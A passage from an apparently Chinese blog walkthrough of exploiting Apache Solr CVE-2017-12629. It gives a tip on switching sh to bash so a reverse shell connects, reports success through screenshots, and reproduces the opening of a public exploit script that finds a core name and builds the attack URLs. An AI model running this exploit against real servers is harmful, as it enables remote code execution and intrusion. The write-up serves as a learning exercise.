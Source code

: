 **Tips：**

**linux一般默认都是用的bash，但是我们的数据包是sh，而我们的反弹命令又是用的bash，所以要想反弹的话，必须把包中的sh改成bash。之前用sh也可以执行命令，是因为之前的命令既属于sh也属于bash**

![image-20220704215936797](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220704215936797.png)

![img](https://img-blog.csdnimg.cn/3dff4b100de646d7880579f3f7499ecc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5qix5rWF5rKQ5Yaw,size_20,color_FFFFFF,t_70,g_se,x_16)

![image-20220704220036126](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220704220036126.png)

**成功反弹**

![image-20220704220049958](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220704220049958.png)



# 漏洞EXP

项目地址：https://github.com/zhzyker/exphub/blob/master/[solr](https://so.csdn.net/so/search?q=solr&spm=1001.2101.3001.7020)/cve-2017-12629_cmd.py

附代码：

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author:zhzyker
# from:https://github.com/zhzyker/exphub
# telegram:t.me/zhzyker

import requests
import sys
import json

if len(sys.argv)!=4:
    print('+--------------------------------------------------------------------------+')
    print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                     +')
    print('+      Apache Solr Commons Remote Code Execution                           +')
    print('+--------------------------------------------------------------------------+')
    print('+ USE: python3 cve-2017-12629_cmd.py <url> <listener_name> <cmd>           +')
    print('+ EXP: python3 cve-2017-12629_cmd.py http://ip:8983 name "touch /tmp/123"  +')
    print('+ VER: Apache Solr < 7.1.0                                                 +')
    print('+--------------------------------------------------------------------------+')
    sys.exit(0)

url = sys.argv[1]
listener = sys.argv[2]
cmd = sys.argv[3]


#get core name
core_url = url + "/solr/admin/cores?indexInfo=false&wt=json"
try:
    r = requests.request("GET", url=core_url, timeout=20)
    core_name = list(json.loads(r.text)["status"])[0]
    print ("[+] GET CORE NAME: "+url+"/solr/"+core_name+"/config")
except:
    print ("[-] Target Not Vuln Good Luck")
    sys.exit(0)
    
cmd_url = url + "/solr/" +core_name+ "/config"
exec_url = url + "/solr/" +core_name+ "/update"
#print (cmd_url)
#print (exec_url)
```